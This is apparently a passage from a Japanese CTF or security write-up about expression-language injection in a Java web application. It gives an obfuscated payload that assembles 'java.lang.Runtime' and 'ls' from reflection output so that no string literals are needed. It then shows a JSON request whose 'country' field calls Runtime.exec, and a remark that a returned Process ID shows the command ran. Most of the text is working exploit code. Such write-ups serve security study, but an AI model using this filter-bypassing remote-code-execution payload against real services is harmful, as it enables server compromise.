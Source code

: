 s | `[].getClass().getClass().getMethods()[[].size()].toString().substring([[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[]].size())`

```java
[].getClass().getClass().getDeclaredMethods()[[].size()].toString().substring([[],[],[],[],[],[],[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size()).concat([].getClass().getClass().getDeclaredMethods()[[].size()].toString().substring([[]].size(),[[],[]].size()).toUpperCase()).concat([].getClass().getClass().getMethods()[[].size()].toString().substring([[]].size(),[[],[]].size())).concat([].getClass().getClass().getMethods()[[].size()].toString().substring([[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size())).concat([].getClass().getClass().getDeclaredMethods()[[].size()].toString().substring([[],[],[],[],[]].size(),[[],[],[],[],[],[]].size())).concat([].getClass().getClass().getDeclaredMethods()[[].size()].toString().substring([[],[]].size(),[[],[],[]].size())).concat([].getClass().getClass().getMethods()[[].size()].toString().substring([[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size())).concat([].getClass().getClass().getDeclaredMethods()[[].size()].toString().substring([[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[]].size()))
// -> java.lang.Runtime

[].getClass().getClass().getMethods()[[].size()].toString().substring([[],[],[]].size(),[[],[],[],[]].size()).concat([].getClass().getClass().getMethods()[[].size()].toString().substring([[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[]].size()))
// -> ls
```

以下のようなjsonデータを送信するとProcess IDが出力されるので、コマンドは実行されていそう。

```json
{"firstName":"Test","lastName":"Test","description":"Test","country":"${[].getClass().getClass()[[].getClass().getClass().getMethods()[[].size()].toString().substring([[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size())]([].getClass().getClass().getDeclaredMethods()[[].size()].toString().substring([[],[],[],[],[],[],[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size()).concat([].getClass().getClass().getDeclaredMethods()[[].size()].toString().substring([[]].size(),[[],[]].size()).toUpperCase()).concat([].getClass().getClass().getMethods()[[].size()].toString().substring([[]].size(),[[],[]].size())).concat([].getClass().getClass().getMethods()[[].size()].toString().substring([[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size())).concat([].getClass().getClass().getDeclaredMethods()[[].size()].toString().substring([[],[],[],[],[]].size(),[[],[],[],[],[],[]].size())).concat([].getClass().getClass().getDeclaredMethods()[[].size()].toString().substring([[],[]].size(),[[],[],[]].size())).concat([].getClass().getClass().getMethods()[[].size()].toString().substring([[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size())).concat([].getClass().getClass().getDeclaredMethods()[[].size()].toString().substring([[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[]].size()))).getMethods()[[[],[],[],[],[],[]].size()].invoke(null).exec([].getClass().getClass().getMethods()[[].size()].toString().substring([[],[],[]].size(),[[],[],[],[]].size()).concat([].getClass().getClass().getMethods()[[].size()].toString().substring([[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[]].size()))).getInputStream().readAllBytes()[[].size()]}"}
```

